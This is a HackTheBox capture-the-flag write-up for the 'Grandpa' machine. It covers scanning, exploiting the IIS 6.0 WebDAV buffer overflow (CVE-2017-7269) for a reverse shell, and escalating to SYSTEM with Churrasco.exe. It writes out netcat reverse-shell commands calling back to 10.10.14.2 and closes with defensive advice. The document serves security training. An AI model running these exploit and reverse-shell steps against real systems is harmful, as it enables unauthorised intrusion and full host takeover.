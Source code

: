 # HTB - Grandpa

**IP Address:** `10.10.10.14`  
**OS:** Windows Server 2003  
**Difficulty:** Easy  
**Tags:** #IIS6, #WebDAV, #BufferOverflow, #SeImpersonatePrivilege, #Churrasco, #Windows-Exploitation

---
## Synopsis

Grandpa is an easy Windows machine vulnerable to a classic **IIS 6.0 WebDAV buffer overflow (CVE-2017-7269)**.  
Exploitation leads to an initial shell as a low-privileged user. Privilege escalation is achieved by abusing the **SeImpersonatePrivilege** via **Churrasco.exe** on Windows Server 2003 to obtain `NT AUTHORITY\SYSTEM`.

---
## Skills Required

- Basic Windows service enumeration  
- Knowledge of IIS and WebDAV vulnerabilities  
- Understanding of Windows privilege escalation techniques  

## Skills Learned

- Exploiting **IIS 6.0 PROPFIND buffer overflow**  
- Abusing **SeImpersonatePrivilege** on legacy Windows systems  
- Using **Churrasco.exe** for SYSTEM escalation  

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

We begin by checking if the target is alive with ICMP:

```bash
ping -c 1 10.10.10.14
```

![](GitHubv2/HackTheBox/EASY/Grandpa/screenshots/ping.png)

The machine responds, confirming it is alive.

---
### 1.2 Port Scanning

We scan all 65,535 TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.14 -oG allPorts
```

![](GitHubv2/HackTheBox/EASY/Grandpa/screenshots/allports.png)

Extract the open ports:

```bash
extractPorts allPorts
```

![](GitHubv2/HackTheBox/EASY/Grandpa/screenshots/extractports.png)

Only port **80/tcp** is open.

---
### 1.3 Targeted Scan

We run a deeper scan with version detection and default NSE scripts:

```bash
nmap -p80 -sC -sV 10.10.10.14 -oN targeted
```

```bash
cat targeted -l java
```

![](GitHubv2/HackTheBox/EASY/Grandpa/screenshots/targeted.png)

**Findings:**

| Port | Service | Version/Description |
|------|---------|---------------------|
| 80   | HTTP    | Microsoft IIS 6.0 with WebDAV enabled |

The service runs **IIS 6.0 WebDAV**, an outdated version known to be vulnerable.

---
## 2. Exploitation – IIS 6.0 WebDAV Buffer Overflow

During the targeted scan we identify **WebDAV**, a set of HTTP extensions that allows collaborative editing and file management. IIS 6.0 is known to be vulnerable to **CVE-2017-7269**.

Exploit reference: [IIS6 Exploit (CVE-2017-7269)](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)

We clone the exploit:

```bash
git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
```

![](GitHubv2/HackTheBox/EASY/Grandpa/screenshots/exploit.png)

This is a classic **buffer overflow** triggered via the **PROPFIND** WebDAV request:

![](GitHubv2/HackTheBox/EASY/Grandpa/screenshots/exploit_propfind.png)

The exploit script requires:

- `targetip`  
- `targetport`  
- `reverseip`  
- `reverseport`

We run the exploit and set up a listener with `nc`:

```bash
python2 iis6\ reverse\ shell 10.10.10.14 80 10.10.14.2 443
```

![](GitHubv2/HackTheBox/EASY/Grandpa/screenshots/reverse_shell_iis6.png)

✅ Reverse shell obtained.

---
## 3. Post-Exploitation Enumeration

We check our privileges and system structure:

![](GitHubv2/HackTheBox/EASY/Grandpa/screenshots/whoami.png)

On Windows Server 2003, user profiles are located in **`Documents and Settings`** instead of `Users`:

![](GitHubv2/HackTheBox/EASY/Grandpa/screenshots/dir_users.png)

Checking privileges:

![](GitHubv2/HackTheBox/EASY/Grandpa/screenshots/priv.png)

We have **SeImpersonatePrivilege** enabled, which can be exploited for privilege escalation.

---
## 4. Privilege Escalation – Churrasco.exe

Normally, **JuicyPotato** would be used, but it does not support Windows Server 2003 due to missing CLSIDs. Instead, we use **Churrasco.exe**, a community version adapted for Windows Server 2003.

Exploit reference: [Privilege Escalation – Churrasco.exe](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)

We upload `churrasco.exe` via an SMB share:

```bash
impacket-smbserver smbFolder $(pwd)
```

On the victim:

```powershell
dir \\10.10.14.2\smbFolder\
copy \\10.10.14.2\smbFolder\churrasco.exe churrasco.exe
```

![](GitHubv2/HackTheBox/EASY/Grandpa/screenshots/upload_churrasco.png)

Move to `Temp` directory if copying fails.  

Running without arguments fails, so we must specify a command:

![](GitHubv2/HackTheBox/EASY/Grandpa/screenshots/churrasco_execute.png)

To get a more stable shell, we upload `nc.exe` via SMB and then execute it with Churrasco:

```bash
.\churrasco.exe "\\10.10.14.2\smbFolder\nc.exe -e cmd 10.10.14.2 4444"
```

If it fails, try renaming the share or copying locally:

```bash
copy "\\10.10.14.2\smb\nc.exe" nc.exe
.\churrasco.exe "nc.exe -e cmd 10.10.14.2 4444"
```

![](GitHubv2/HackTheBox/EASY/Grandpa/screenshots/whoami_churrasco.png)

✅ Privilege escalation successful – we are `NT AUTHORITY\SYSTEM`.

---
## 5. Flags

With SYSTEM access, we can retrieve both flags:

![](GitHubv2/HackTheBox/EASY/Grandpa/screenshots/root_user_flag.png)

✅ **User flag obtained**  
✅ **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Port Scanning** → Detected IIS 6.0 on port 80.  
2. **WebDAV Buffer Overflow (CVE-2017-7269)** → Remote code execution with reverse shell.  
3. **Privilege Escalation** → Abused `SeImpersonatePrivilege` using **Churrasco.exe**.  
4. **Post-Exploitation** → Retrieved user and root flags as SYSTEM.

---
## Defensive Recommendations

- **Upgrade IIS 6.0**: It is end-of-life and should be replaced with a supported version.  
- **Disable WebDAV** if not required.  
- **Restrict Privileges**: Remove `SeImpersonatePrivilege` from unnecessary accounts.  
- **Monitor for Exploits**: Log and alert on abnormal WebDAV requests such as `PROPFIND`.  
